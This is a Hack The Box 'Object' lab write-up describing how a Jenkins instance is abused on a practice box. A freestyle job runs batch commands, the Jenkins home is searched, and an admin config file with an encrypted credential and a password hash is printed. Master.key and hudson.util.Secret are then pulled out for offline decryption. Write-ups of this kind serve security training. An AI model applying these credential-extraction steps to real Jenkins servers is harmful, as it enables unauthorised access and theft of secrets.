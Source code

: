 ## HTB Object - Writeup

Difficulty: Hard

This Active Directory box was especially challenging due to a firewall that blocked many connections, adding an extra layer of difficulty.  
The journey began with decrypting a password from Jenkins, which granted WinRM access as a user.  
From there, abusing ACLs became crucial for escalating privileges.  
Each step deepened my understanding of AD exploitation, making it a rewarding and insightful challenge.  

---

## Nmap 

#### The nmap scan revealed three open ports:

![obraz](https://github.com/user-attachments/assets/efd1d3c9-feb6-4852-9cbe-d5584e14695f)


## Port 80 - Website 

Here’s what the website looks like:

![obraz](https://github.com/user-attachments/assets/282f048d-8c09-46d6-a32a-b91705981b8f)

Right from the initial enumeration, an email address and domain name are revealed.  
Let’s make a note of the email for later and add the domain **object.htb** to /etc/hosts.  
At this point, we can try directory busting, but it didn’t yield any results.  

Lastly there is a link that points to **http://object.htb:8080/**.
  
  
  
  

## Port 8080 - Jenkins

This website hosts a Jenkins instance.  
We can try common default credentials such as admin:password, jenkins:jenkins, and similar combinations, but they didn't work.


<p align="center">
  <img src="https://github.com/user-attachments/assets/3d1d8667-bbe8-443d-a48c-753cf09f64e4" alt="obraz">
</p>

After creating an account, we gain access to the dashboard and notice it’s running version 2.317 of Jenkins.  
We could potentially abuse the Script Console using a Groovy-based reverse shell, but access to it requires administrative privileges.  
My second thought was to create a Jenkins job that, when built, executes a Windows command, eventually leading to shell access.  
This is a popular way to execute commands in Jenkins, let's try that:

**Click on "New Item" -> "Freestyle Project", and scroll a bit down, and select "Build Periodically":**

![obraz](https://github.com/user-attachments/assets/0c054a9e-f114-4899-af57-3065f08fd866)


We want it to make a build every minute, meaning our command will be executed every minute also.  
**Scroll a bit down and "Add a build step" -> "Execute Windows Batch Command"**


![obraz](https://github.com/user-attachments/assets/6185423b-29c0-4afa-9990-8695048807fa)  
Then hit save and apply.

Now we wait for one minute and select: 
**last build -> console output -> check if we have command execution**

![obraz](https://github.com/user-attachments/assets/3e220dc1-4faf-4b76-9003-3df418ff247c)  

Now it's time to upload a reverse shell to the target machine, but here we discovered that it won't be possible likely to the firewall settings that block outbound connection.

![obraz](https://github.com/user-attachments/assets/8aede77d-3c9a-4342-869f-d85dca9cbb83)  

It's time to change approach, we're left with possibility to enumerate the target system.  
First we want to check jenkins home directory.  
We'll exeucte:  

![obraz](https://github.com/user-attachments/assets/36eec344-454a-4133-a86b-55b9f2a57853)

Output:

![obraz](https://github.com/user-attachments/assets/7faa5c88-58fe-4b35-a867-57c020e7bc85)

We've got two intresting directories: secrets, and users.  
First we'll check Users directory.  

![obraz](https://github.com/user-attachments/assets/b55729d4-5bdb-43fd-ac35-7ce8411f697c)

There is a user that we created previously and admin.  
Let's check admin directory:  

![obraz](https://github.com/user-attachments/assets/5055b9c1-1fad-4a15-b694-7007a7f8174c)  

We have a config file, lets see what's in it:  

![obraz](https://github.com/user-attachments/assets/cb7ee68e-4fe9-4132-80f2-e937b572e851)


File Contents:  
```
<?xml version='1.1' encoding='UTF-8'?>
<user>
  <version>10</version>
  <id>admin</id>
  <fullName>admin</fullName>
  <properties>
    <com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty plugin="credentials@2.6.1">
      <domainCredentialsMap class="hudson.util.CopyOnWriteMap$Hash">
        <entry>
          <com.cloudbees.plugins.credentials.domains.Domain>
            <specifications/>
          </com.cloudbees.plugins.credentials.domains.Domain>
          <java.util.concurrent.CopyOnWriteArrayList>
            <com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
              <id>320a60b9-1e5c-4399-8afe-44466c9cde9e</id>
              <description></description>
              <username>oliver</username>
              <password>{AQAAABAAAAAQqU+m+mC6ZnLa0+yaanj2eBSbTk+h4P5omjKdwV17vcA=}</password>
              <usernameSecret>false</usernameSecret>
            </com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
          </java.util.concurrent.CopyOnWriteArrayList>
        </entry>
      </domainCredentialsMap>
    </com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty>
    <hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty plugin="email-ext@2.84">
      <triggers/>
    </hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty>
    <hudson.model.MyViewsProperty>
      <views>
        <hudson.model.AllView>
          <owner class="hudson.model.MyViewsProperty" reference="../../.."/>
          <name>all</name>
          <filterExecutors>false</filterExecutors>
          <filterQueue>false</filterQueue>
          <properties class="hudson.model.View$PropertyList"/>
        </hudson.model.AllView>
      </views>
    </hudson.model.MyViewsProperty>
    <org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty plugin="display-url-api@2.3.5">
      <providerId>default</providerId>
    </org.jenkinsci.plugins.displayurlapi.user.PreferredProviderUserProperty>
    <hudson.model.PaneStatusProperties>
      <collapsed/>
    </hudson.model.PaneStatusProperties>
    <jenkins.security.seed.UserSeedProperty>
      <seed>ea75b5bd80e4763e</seed>
    </jenkins.security.seed.UserSeedProperty>
    <hudson.search.UserSearchProperty>
      <insensitiveSearch>true</insensitiveSearch>
    </hudson.search.UserSearchProperty>
    <hudson.model.TimeZoneProperty/>
    <hudson.security.HudsonPrivateSecurityRealm_-Details>
      <passwordHash>#jbcrypt:$2a$10$q17aCNxgciQt8S246U4ZauOccOY7wlkDih9b/0j4IVjZsdjUNAPoW</passwordHash>
    </hudson.security.HudsonPrivateSecurityRealm_-Details>
    <hudson.tasks.Mailer_-UserProperty plugin="mailer@1.34">
      <emailAddress>admin@object.local</emailAddress>
    </hudson.tasks.Mailer_-UserProperty>
    <jenkins.security.ApiTokenProperty>
      <tokenStore>
        <tokenList/>
      </tokenStore>
    </jenkins.security.ApiTokenProperty>
    <jenkins.security.LastGrantedAuthoritiesProperty>
      <roles>
        <string>authenticated</string>
      </roles>
      <timestamp>1634793332195</timestamp>
    </jenkins.security.LastGrantedAuthoritiesProperty>
  </properties>
</user>
```

This is a file that contain credentials and can be decrypted with a python script, but in order to do that we will need master.key and hudson.util.Secret which both can be found in **Secrets** directory.  

![obraz](https://github.com/user-attachments/assets/0fe4e98d-2575-4692-88d6-38103fadfe5c)

Output:  

![obraz](https://github.com/user-attachments/assets/e69f3363-d8b0-41ef-aef2-0346995f52b0)

We will copy this key to our kali linux.  
With getting hudson.util.Secret I had a problem but finally it worked when converted to base64 with powershell:  

![obraz](https://github.com/user-attachments/assets/0f7bdf6e-0df1-4cfb-9f45-6f9f03e80509)

Output:

![obraz](https://github.com/user-attachments/assets/415ba5c2-ea76-4dd2-86bc-6ebb84ebe281)

Now let's decode that and put in a file:  

![obraz](https://github.com/user-attachments/assets/19ae2ea9-21d9-435f-a710-c8b3d0857ad4)

Now we can put everything together and get plain text password with this script:

```
https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py
```




































